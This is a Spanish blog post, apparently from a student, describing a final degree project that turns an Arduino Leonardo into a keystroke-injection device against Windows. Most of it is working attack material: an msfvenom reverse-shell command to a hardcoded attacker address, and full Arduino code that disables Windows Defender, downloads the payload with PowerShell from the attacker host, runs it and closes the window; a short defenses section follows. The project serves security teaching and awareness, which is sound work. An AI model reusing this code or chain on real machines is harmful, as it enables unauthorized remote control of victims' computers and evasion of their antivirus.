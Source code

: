```yaml
---
title: Mi Trabajo de Fin de Grado ASIR
published: true
---
```


# Titulo: "WorseCase"

![imagen](https://github.com/user-attachments/assets/385088de-2157-423a-ad6a-4047414cbdf1)

Buenas, en este post hablaremos sobre mi Trabajo de Fin de Grado (TFG) que realicé este año para completar el grado superior de Administrador de Sistemas Informáticos en Red (ASIR).

# Introducción

En este trabajo, se comprobará el peligro que supone para cualquier persona u organización dejar los equipos sin control y manipulables por cualquier persona. Se demostrará utilizando un placa “Arduino Leonardo” cómo se puede llegar a tener acceso remoto sin tocar el teclado y de forma rápida.

Además se explicará hasta donde puede llegar esta herramienta y de que formas se puede neutralizar este ataque.

El objetivo final es demostrar el peligro de dejar desatendido el equipo y como mejorar la seguridad de los sistemas.

# Recursos a utilizar

**Máquina virtual:** Se utilizará una máquina virtual con sistema operativo Windows para crear un entorno de prueba para probar el funcionamiento de la placa.

**Arduino IDE:** Software para programar y subir scripts a las placas Arduino

**Placa Arduino Leonardo:** Placa que tiene compatibilidad con HID (Human Interface Device)

**Netcat:** Una herramienta para recibir una conexión remota y tener acceso al equipo

**Msfvenom:** Herramienta de línea de comandos que se utiliza para generar payloads personalizados para una amplia variedad de sistemas operativos y arquitecturas.

**Powershell:** Es una interfaz de consola con posibilidad de escritura y unión de comandos por medio de instrucciones.

# Prueba de Concepto

Se creará un script que sea ejecutable por la placa Arduino, conectaremos por USB a la máquina víctima la placa y creará una conexión remota a la máquina atacante dandole acceso de forma no autorizada.

![imagen](https://github.com/user-attachments/assets/43b88527-472d-46a1-85df-08942b39664f)

## Creación de exploit con msfvenom

Seleccionamos el payload, indicamos el host que recibirá la conexión, el puerto que debe conectarse, arquitectura del archivo, extensión y el nombre del archivo

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.20 LPORT=9001 -a x64 -f exe -o eskere.exe

![imagen](https://github.com/user-attachments/assets/a62ba1a0-7495-42fc-b5eb-61de04e890a9)

Por ultimo abriremos un servidor http con python con el archivo malicioso generado y dejaremos escuchando

![imagen](https://github.com/user-attachments/assets/e9f537e6-064c-43b5-a772-61bc4d1b567d)


## Configuración de placa Arduino

Para que el ataque funcione debemos verificar y subir el código a la placa. Este código realiza todos los pasos de forma automática el proceso para vulnerar la máquina.

Con este codigo podremos activar la placa si realizamos un puente con el puerto de tierra y con el puerto 2

```arduino
#include <Keyboard.h>
void typeKey(uint8_t key){
Keyboard.press(key);
delay(50);
Keyboard.release(key);
}
void setup() {
pinMode(2,INPUT);
digitalWrite(2,HIGH);
Keyboard.begin();
while(digitalRead(2)){
}
delay(2000);
Keyboard.write(KEY_LEFT_GUI);
Keyboard.releaseAll();
delay(2000);

Keyboard.println("windows se");
delay(3000);
Keyboard.println("");delay(3000);
Keyboard.println("");
delay(3000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.press(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.write(KEY_TAB);
Keyboard.releaseAll();
delay(1000);

Keyboard.println("cmd");
delay(3000);
Keyboard.println("");
delay(2000);

Keyboard.print("powershell iwr -uri http://192.168.2.20:8000/notocar.exe -OutFile ./eskere.exe -UseBasicParsing");
delay(2500);
Keyboard.println("");
delay(3500);

Keyboard.println("eskere.exe");
delay(3500);

Keyboard.println("");
delay(2500);

Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(KEY_F4);
delay(100);
Keyboard.releaseAll();
```

## Ataque

la placa, se conectará a la placa un cable que conecte el puerto GND y al puerto 2. Después se conectará por el puerto USB a la máquina victima y el script de la placa se ejecutará.

Al ejecutar el script, el proceso automático será el siguiente:

> 1º Accederá al panel de “Windows Defender”, lo desactivará y lo cerrará.

> 2º Abrirá una terminal “CMD” y ejecutará un comando de powershell para descargarse de la máquina atacante el archivo que permitirá la conexión remota.

> 3º Ejecutará el archivo malicioso y cerrará la terminal, haciendo como si nada hubiera ocurrido.

Cuando termine el proceso, tendrá en la pantalla de la máquina atacante una conexión remota y control total a la máquina victima.

### Video
[Video de prueba de concepto](https://drive.google.com/file/d/1IH2ce5XjQ3JLyCjTIZH3coHuVfHw2f7v/view?usp=sharing)

# Defensas
Ante este tipo de ataques existen muy pocas medidas de seguridad, es por eso que se deberá concienciar de los peligros que puede suponer a los usuarios que utilicen ordenadores.

Para defenderse contra estas placas se aconseja:

- No dejar desatendido cualquier equipo, con tan solo bloquear el equipo mientras no se utilice ya deja inutilizada a la placa.

- Bloquear físicamente o desde la BIOS cualquier puerto USB que no se vaya a utilizar para que al conectar la placa no pueda ejecutar nada.

# Conclusión

En conclusión, el proyecto explica la creación de un ataque por USB que podría inutilizar un equipo o sistema y securización de este. Implementando medidas de seguridad para mitigar el impacto de este ataque, logrando la protección y seguridad de equipos personales o empresariales.

¡Espero que os haya gustado el post!

![ZRPK](https://github.com/user-attachments/assets/efd20496-6fbc-41d6-af7b-84471c9bc893)
